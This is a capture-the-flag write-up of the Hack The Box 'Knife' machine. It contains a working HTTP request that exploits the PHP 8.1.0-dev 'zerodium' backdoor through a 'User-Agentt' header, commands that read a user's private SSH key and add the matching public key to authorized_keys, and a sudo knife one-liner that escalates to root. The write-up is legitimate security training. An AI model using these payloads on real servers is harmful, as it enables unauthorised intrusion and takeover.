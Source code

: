 https://app.hackthebox.com/machines/347

### Knife - Explore and nmapping

Starting with nmap to see what's runnng on the server:
```bat
sudo nmap -p- --min-rate 10000 -oA knife -v 10.10.10.242
```


While the nmap is running we can take a look and see if any website is running on the default port.
![website](https://is-going-to-rick-roll.me/1637881484.png)
So the website is a static page with one page (landing page)
no forms or anything special/suspicious.

Now let's check the nmap results
![nmap result](https://is-going-to-rick-roll.me/1637881600.png)
<br>
as we can see we have two ports open:
* 22 - TCP SSH
* 80 - TCP HTTP

sicne we have two options I'll go and investigate the website.
Opening burp suite and sniffing the GET for the index page returns us nothing special
![burp results](https://is-going-to-rick-roll.me/1637881755.png)
At first glance, it might look like a normal website nothing exciting.
But (as a PHP fanboy) i saw something that is really rememberable.
the X-Powerd-By line shows us that it runs PHP 8.1.0 DEVELOPMENT VERSION (which includes a backdoor)

(You can read more about this vulnerability that was released and approved for a few hours in the main repo at: https://rioasmara.com/2021/10/23/supply-chain-attack-php-8-1-0-dev-backdoor/)

After reading a bit more about this vulnerability I can understand how to run RCE.




### Using the vulnerabilities we found


So, after we found RCE in the website we cna be sure that this is the main vulnerability that will get give us the credentials we need for the SSH connection and etc.

By replacing the "User-Agent" name with "User-Agentt" we baypass the backdoor check and now we'll be able to execute code, by giving the value zerodium followed by the command we want to run.
For testing we'll try to echo "kekw".
![RCE POC](https://is-going-to-rick-roll.me/1637882393.png)
as you can see in the screenshot from Burp Suite the RCE worked and we managed to execute code.




## First Flag, owning user.
Most of the time people save flags in txt files, so because it was 1:25 AM at the time i did the first thing that came up to my mine.

```xml
GET /index.php HTTP/1.1

Host: 10.10.10.242

User-Agentt: zerodiumsystem('find . -name *.txt');

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1
```

response: ![](https://is-going-to-rick-roll.me/1637882832.png)
<br>

and here we go, inside the first file it returned we have the user flag.
we can use the RCE in order to print it (:

![back-door in PHP](https://is-going-to-rick-roll.me/1637882978.png)

<br>

## Owning the system - SSH

After a doing a small resarch I could found a packege that will help us getting into the server using the RCE.

(You can see more about it in: https://github.com/flast101/php-8.1.0-dev-backdoor-rce)

![RCE backdoor](https://is-going-to-rick-roll.me/1637920603.png)

using the backdoor_php_8.1.0-dev.py script we can accsess now to the server.

we are logged as james.

This user has no special permission.
By running <code>sudo -l</code> I can see we can run only one thing "(root) NOPASSWD: /usr/bin/knife"


##### Getting into SSH
On the sell that the backdoor opend us we can see that it uses SSH keys to log-in.
My first thought was to copy the private key to my machine and try to log in with that.


```bat
cat /home/james/.ssh/id_rsa```
```
![Private SSH key](https://is-going-to-rick-roll.me/1637927299.png)
(save this on your machine)<br>


Before trying to make the ssh connection with the key that we just found we have to make sure that the public key is inside the authorized_keys file.

```bat
cat /home/james/.ssh/authorized_keys
```

And it returned nothing, so we'll have to add the public kay by rinning 
```bat
cat home/james/.ssh/id_rsa.pub >> home/james/.ssh/authorized_keys
```

Now we can connect to the server via SSH
```bat
ssh -i id_rsa james@10.10.10.242
```
and we're inside!

![SSH connection with the KEY](https://is-going-to-rick-roll.me/1637928878.png)

<br><br>

##### Finding the system flag



Now, when we alrady gain accsess into the server via ssh we can look and see what files and what other things that we didn't saw we have.

About files i found nothing.
running <code>sudo -l</code> returned me
![sudo hint](https://is-going-to-rick-roll.me/1637929088.png)
In a first look you'll be confusd but after a short google search we can find this -> https://gtfobins.github.io/#knife

![gtfobins article](https://is-going-to-rick-roll.me/1637929195.png)

And this is how we are going to preform an privilege escalation attack, let's go back into the SSH and run 
```bat
sudo knife exec -E 'exec "/bin/sh"'


id
```

Now we are root.
![couldnt ask for mow hu](https://is-going-to-rick-roll.me/1637929307.png)

Let's go to the main user directory and see what we have.

![root.txt found](https://is-going-to-rick-roll.me/1637929371.png)


and we have found our last flag root.txt

![flag](https://is-going-to-rick-roll.me/1637929433.png)

